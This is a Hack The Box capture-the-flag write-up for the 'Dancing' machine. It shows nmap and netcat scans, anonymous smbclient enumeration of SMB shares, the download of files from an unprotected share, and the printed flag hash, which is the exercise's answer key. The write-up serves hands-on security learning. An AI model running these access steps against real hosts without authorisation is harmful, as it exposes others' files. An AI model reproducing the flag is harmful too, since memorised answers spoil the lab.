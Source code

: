 # Dancing From Hack The Box

## Tags

- Windows

## Settup

1. Connect to the Hack The Box Starting Point VPN
2. Spawn Dancing
3. Copy machine ip and set to an env variable

```bash
export ip=10.129.113.234
```

# Tasks

## 1.)  What does the 3-letter acronym SMB stand for? 


From Google:

*The Server Message Block protocol (SMB protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. It can also carry transaction protocols for interprocess communication.*

The answer is `Server Message Block`

## 2.) What port dose SMB use to operate at?

From [Techtarget](https://www.techtarget.com/searchnetworking/definition/Server-Message-Block-Protocol)

*The SMB protocol operates at the application layer but relies on lower network levels for transport. At one time, SMB ran on top of Network Basic Input/Output System over Transmission Control Protocol/Internet Protocol (NetBIOS over TCP/IP, or NBT) or, to a lesser degree, legacy protocols such as Internetwork Packet Exchange or NetBIOS Extended User Interface. When SMB was using NBT, it relied on ports 137, 138 and 139 for transport. Now, SMB runs directly over TCP/IP and uses port 445.*

The ansswer is `445`

## 3.)  What is the service name for port 445 that came up in our Nmap scan? 

To perform a service scan of just port 445 with nmap:

```bash
sudo nmap -sC -sV -p 445 $ip
```

```bash
Nmap scan report for 10.129.113.234
Host is up (0.055s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-23T18:38:09
|_  start_date: N/A
|_clock-skew: 3h59m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.46 seconds

```

To verify microsoft-ds I can run a netcat banner grab to see what the service responds with:

```bash
nc -zn $ip 445
```
```
(UNKNOWN) [10.129.113.234] 445 (microsoft-ds) open

```

The answer is `microsoft-ds`

## 4.)  What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 


From `man smbclient`:

```
  -L|--list
           This option allows you to look at what services are available on a server. You use it as smbclient -L
           host and a list should appear. The -I option may be useful if your NetBIOS names don't match your
           TCP/IP DNS host names or if you are trying to reach a host on another network.


```

Making the answer `-L`


## 5.)  What is the name of the share we are able to access in the end with a blank password? 

To login with a username of Anonymous and a blank password with smbclient:

```bash
smbclient -L $ip -U Anonymous -N
```

```
─$ smbclient -L $ip -U Anonymous -N                                                                            1 ⨯

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.113.234 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

The name of the share is `WorkShare`


## 6.)  What is the command we can use within the SMB shell to download the files we find? 


From the help command from within smb, `get`



## 7.) Get the root flag

To connect to the Share I can access (Workshares)

```bash
smbclient //$ip/workshares -U Anonymous -N

```
Then, I can list directories and files with the `ls` command, and `cd` to enter into directories I want to explore. When I see files I want to exfiltrate I can use the `get` command.

```bash
└─$ smbclient //$ip/workshares -U Anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 23 14:48:58 2022
  ..                                  D        0  Thu Jun 23 14:48:58 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1752071 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 05:08:24 2021
  ..                                  D        0  Mon Mar 29 05:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 07:00:37 2021

                5114111 blocks of size 4096. 1752071 blocks available
smb: \Amy.J\> get worknotes.txt 
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1752071 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> quit

```

Then I can view these file locally with the `cat` command locally:

```bash
└─$ cat worknotes.txt                         
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing                                                                                                                                                                                                                                              

```

```bash
└─$ cat flag.txt     
5f61c10dffbc77a704d76016a22f1664                                                                                                                                                                                                                                             

```

Giving me the root flag
